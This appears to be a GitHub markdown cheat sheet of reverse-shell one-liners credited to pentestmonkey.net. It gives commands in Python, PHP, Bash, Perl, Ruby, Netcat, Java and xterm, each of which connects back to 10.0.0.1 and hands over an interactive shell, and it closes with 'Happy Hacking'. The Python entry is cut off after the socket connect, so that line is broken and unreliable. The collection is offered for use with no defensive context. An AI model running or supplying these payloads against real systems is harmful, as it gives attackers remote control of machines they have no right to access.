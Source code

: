 # Reverse Shell
It has reverse shell code of various technologies. Thanks to pentestmonkey.net

## Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## Bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm

xterm -display 10.0.0.1

Happy Hacking
